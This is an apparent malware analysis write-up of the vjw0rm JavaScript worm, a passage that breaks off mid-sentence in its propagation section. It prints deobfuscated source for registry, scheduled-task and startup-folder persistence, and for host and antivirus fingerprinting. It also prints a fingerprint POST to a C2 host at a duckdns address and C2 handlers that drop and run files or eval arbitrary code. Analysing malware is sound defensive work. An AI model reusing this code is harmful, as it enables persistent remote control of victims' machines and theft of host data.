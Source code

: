 #+author: Arkeopix
#+email:  jerome.mendiela@protonmail.ch
#+title:  vjw0rm, an analysis
#+date:   <2018-01-18 Thu>

* Intro
  vjw0rm might not be the sexiest malware out there, but it's still good enough to trick users into
  executing it. It offers a good example of malware behaviour and shows some techniques used by malware author
  to persists and propagate. This analysis will focus on what vjw0rm does, how and will briefly speculate as to
  why.

  vjw0rm (refered to as "the sample" for the rest of the document) is a malicious ZIP archive
  sent as an attachment in an email.

  When executed, the sample will try and persist, gather information about the conputer its being 
  ran on and enter a loop, making contact with the C2 server to get instructions.
  
  the sample is able to execute scripts and arbitraty javascript, self update and propapate itself 
  through USB devices.

  Sadly i lost the original email, but i remember having a good laugh because it was litteraly asking the user to 
  run the extracted file file as administrator, "for better performances". 

  #+name: sha256 hash
  #+begin_src sh
    $> sha256sum scan-743457657.zip                                          
    $> 3e1c170dae4154581f7f37e20fcdd85ae39f2a98c7a2b1fdb153a2dfa5bae486  scan-743457657.zip
  #+end_src

* Mechanisms
** Obfuscation
   The sample is really quite simple as the payload is url encoded.
   All we need to do is calling some kind of urldecode function and get the code itself.
   As for the code, it is obfuscated with a mix of global variables, references to indexes 
   in arrays, "getter" functions and almost meaningless names 
   (=sh= holds the WScript.Shell object, for example). 
   Nothing anyone familiar with reading code could not understand.
   
   I don't feel like this part needs some extra attention.
  
** Persitence
   Upon starting, the sample will try to read the registry key =HKCU\\vjw0rm=, the value will be either
   TRUE, FALSE or the key will not exist and an exception will be raised. The catch block will set the 
   key based on the position of the sample relative to the top of a directory.

   #+begin_src js
     try {
         // shell.RegRead('HKCU\\vjw0rm')
         // Reading registry key HKCU\\vjw0rm and storing it into isInTopDir. value is either TRUE or FALSE
         isInTopDir = shell.RegRead(RegistryEntries[2]);
     } catch(err) {
         var sv = ScriptFullName.split("\\");
         if (":\\" + sv[1] + "== :\\" + ScriptName) { // If script is in top dir (c:\, e:\, etc)
             isInTopDir = "TRUE";
             // Writing REG_SZ key HKCU\\vjw0rm with TRUE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         } else {
             isInTopDir = "FALSE";
             // Writing REG_SZ key HKCU\\vjw0rm with FALSE
             shell.RegWrite(RegistryEntries[2],isInTopDir,RegistryEntries[5]);
         }
     }
   #+end_src
   
   Then the sample will call a function in order to persist, the deobfuscated code is as follow
   
   #+begin_src js
     function Persist() {
         // Creates a path in tmp for the script
         var PathToScriptInTMP = GetEnvironementVar("TEMP") + BackSlash + ScriptName;
         try {
             // copy file in tmp
             FileSystem.CopyFile(ScriptFullName,PathToScriptInTMP,true);
         } catch(err) {
         }
         try {
             // Writes registry REG_SZ HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\URCWXKQC01 to start the newly created script in tmp
             shell.RegWrite(RegistryEntries[0] + RegistryEntries[3] + "URCWXKQC01","\"" + PathToScriptInTMP + "\"",RegistryEntries[5]);
         } catch(err) {
         }
         try {
             // Create a scheduled task named skype to run the script every 30 minutes 
             shell.run("Schtasks /create /sc minute /mo 30 /tn Skype /tr \"" + PathToScriptInTMP,false);
         } catch(err) {
         }
         
         try {
             // Shell.Application
             var app = ReturnWindowsTool(2);
             // Write the script in startup folder. app.NameSpace(7).Self.Path returns path to startup folder
             FileSystem.CopyFile(ScriptFullName, app.NameSpace(7).Self.Path + "\\" + ScriptName,true);
         } catch(err) {
         }
     }
   #+end_src
   
   As you might see, the sample copies itself in the user temp folder, namely =C:\Users\${USER}\AppData\Local\Temp\${SCRIPT_NAME}=. Then
   it will try all of the following:
   1) Add itself to the Run key in HKLM, meaning that on success the script will be executed each time a user logs on.
      The new key under Run is =URCWXKQC01=
   2) Create a scheduled task called Skype that triggers an execution every 30 minutes
   3) Copy itself in the current user startup folder, i.e. =C:\Users\${USER}\AppData\Roaming\Microsoft\Windows\StartMenu\Programs\Startup\${SCRIPT_NAME}=
      
   As the exceptions are never handled, one could think they're here to hinder readability
** C2 communications
   One of the first thing the sample does is building a fingerprint of the computer it being ran on.
   The details are as follow: 
   #+begin_src js
     function FingerPrint() {
         var serial,NT,i;
         if (FileSystem.fileexists(GetEnvironementVar("Windir") + "\\Microsoft.NET\\Framework\\v2.0.50727\\vbc.exe")) {
             NT ="YES";
         } else {
             NT = "NO";
         }
         // windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\
         serial = HDDSerial + BackSlash + GetEnvironementVar("COMPUTERNAME") + BackSlash + GetEnvironementVar("USERNAME") + BackSlash + GetInfo(2) + BackSlash + GetInfo(4) + BackSlash + BackSlash + NT + BackSlash + isInTopDir + BackSlash;
         return serial;
     }
   #+end_src
   
   This piece of code just concatenates different bits of information about the computer in order to create an identity for the computer, which might
   be used by the C2 server in order to identify and deliver different stages over time.
   The information is gathered through the [[https://msdn.microsoft.com/en-us/library/aa394525(v%3Dvs.85).aspx][winmgmts]] WMI service, running under the LocalSystem account.

   #+begin_src js
     function GetInfo(Action) {
         var s;
         // Get the os version
         if (Action == 2) {
             // GetObject('winmgmts:').InstancesOf('Win32_OperatingSystem');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[2]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.Caption;
                 break;
             }
         }
         // Enumerate Antivirus product and return the name of the AV
         if (Action == 4) {
             var wmg = "winmgmts:\\\\localhost\\root\\securitycenter";
             // GetObject(wmg).InstancesOf('AntiVirusProduct');
             s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 var str = it.DisplayName;
             }
             if (str !== '') {
                 // Look in winmgmts:\\\\localhost\\root\\securitycenter2
                 wmg = wmg + "2";
                 // GetObject(wmg).InstancesOf('AntiVirusProduct');
                 s = GetObject(wmg).InstancesOf(WindowsMgmt[3]);
                 en = new Enumerator(s);
                 for (; !en.atEnd();en.moveNext()) {
                     it = en.item();
                     return it.DisplayName;
                 }
             } else {
                 return it.DisplayName;
             }
         }
         // Get the serial number of the hdd
         if (Action==6) {
             // GetObject('winmgmts:').InstancesOf('win32_logicaldisk');
             s = GetObject(WindowsMgmt[0]).InstancesOf(WindowsMgmt[1]);
             var en = new Enumerator(s);
             for (; !en.atEnd();en.moveNext()) {
                 var it = en.item();
                 return it.volumeserialnumber;
                 break;
             }
         }
     }
   #+end_src
   The fingerprint consist of information on OS version, antivirus info and hdd serial
   
   Once the fingerprint is ok, the sample will try to contact the C2 server, with the information in the User-Agent.
   #+begin_src js
     function PostFingerPrint(ressource,body) {
         // x = ReturnWindowsTool('XMLHTTP');
         // curl -A 'windows_0AEFADF6\DESKTOP-V3RVKO3\test\Microsoft Windows 10 Enterprise Evaluation\Windows Defender\\NO\TRUE\' --data ''  http://postventa-vodafone2006.duckdns.org:1993/VreVre
         var X = ReturnWindowsTool(3);
         X.open('POST','http://postventa-vodafone2006.duckdns.org:1993/Vre' + ressource, false);
         X.SetRequestHeader("User-Agent:",FingerPrint());
         X.send(body);
         return X.responsetext;
     }
   #+end_src
   The response is then parsed and acted upon. The sample reponds to 7 commands from the C2.
   - Cl\\
     Self termination. Upon receiving this message the sample will terminate itself
     #+begin_src js
       if (Response[0] === "Cl") {
           WScript.Quit(1);
       }
     #+end_src
   - Sc \
     Drop file and run it
     #+begin_src js
       if (Response[0] === "Sc") {
           var pathToDrop = GetEnvironementVar("temp") + "\\" + Response[2];
           var file = FileSystem.CreateTextFile(pathToDrop,true);
           file.Write(Response[1]);
           file.Close();
           shell.run(pathToDrop);
       }
     #+end_src
   - Ex\
     Executes arbitrary javascript
     #+begin_src js
       if (Response[0] === "Ex") {
           eval(Response[1]);
       }
     #+end_src
   - Rn\
     Modifies the HDDserial prefix, which is part of the fingerprint. As i was not able to analyse real traffic from the C2 server,
     i can speculate as to why this would be. My guess is that it might be used as a way to discriminate victims in order to deliver 
     different stages of the attack.
     #+begin_src js
       if (Response[0] === "Rn") {
           // Opens the script file for reading
           var scriptr = FileSystem.OpenTextFile(ScriptFullName,1); // ri
           var scriptContent = scriptr.ReadAll(); // fr
           scriptr.Close();
           HDDSerial = HDDSerial.split("_");
           scriptContent = scriptContent.replace(HDDSerial[0],Response[1]);
           // Opens the script for writing
           var scriptw = FileSystem.OpenTextFile(ScriptFullName,2,false); // wi
           scriptw.Write(scriptContent);
           scriptw.Close();
           shell.run("wscript.exe //B \"" + ScriptFullName + "\"");
           WScript.Quit(1);
       }
     #+end_src
   - Up\
     This command seems to allow the sample to self update, or at least drop a new version of itself on disk. 
     As the function changes the "|U|" to "|V|", which is the delimiter used to parse responses from the C2, this looks like a reasonable guess.
     #+begin_src js
       if (Response[0] === "Up") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; // s2
           var file = FileSystem.CreateTextFile(pathTemp,true); // ctf
           var content = Response[1]; // gu
           content = content.replace("|U|","|V|");
           file.Write(content);
           file.Close();
           // Executes the new script in batch mode, hides the window and focus previous window
           shell.run("wscript.exe //B \"" + pathTemp + "\"",6);
           WScript.Quit(1);
       }
     #+end_src
   - Un\
     This command seems to be another way to run arbitraty javascript. However, before running the JS some modifications
     are made on the string from the server. As one of the modification involves the registry key created under the Run key in HKLM,
     this seems to be tied to persistence in some way.
     #+begin_src js
       if (Response[0] === "Un") {
           var formatString = Response[1]; // s2
           var scriptPathTemp = GetEnvironementVar("Temp") + BackSlash + ScriptName;
           var regi = "URCWXKQC01";
           formatString = formatString.replace("%f",ScriptFullName).replace("%n",ScriptName).replace("%sfdr",scriptPathTemp).replace("%RgNe%",regi);
           eval(formatString);
           WScript.Quit(1);
       }
     #+end_src
   - RF\
     This just downloads a file and run it
     #+begin_src js
       if (Response[0] === "RF") {
           var pathTemp = GetEnvironementVar("temp") + "\\" + Response[2]; //s2
           var file = FileSystem.CreateTextFile(s2,true); //fi
           file.Write(Response[1]);
           file.Close();
           shell.run(pathTemp);
       }
     #+end_src

** Propagation
   Everytime the sample tries to contact the C2, it also scan the instances of Win32_LogicalDisk
   in order to find a USB device and copy itself on it. The sample is copied with the =hidden= and =system= attributes,
   which means it is suposed to be invisible and cannot be deleted, depending on the rights associated with the execution.
   Then, the sample scan for the content 
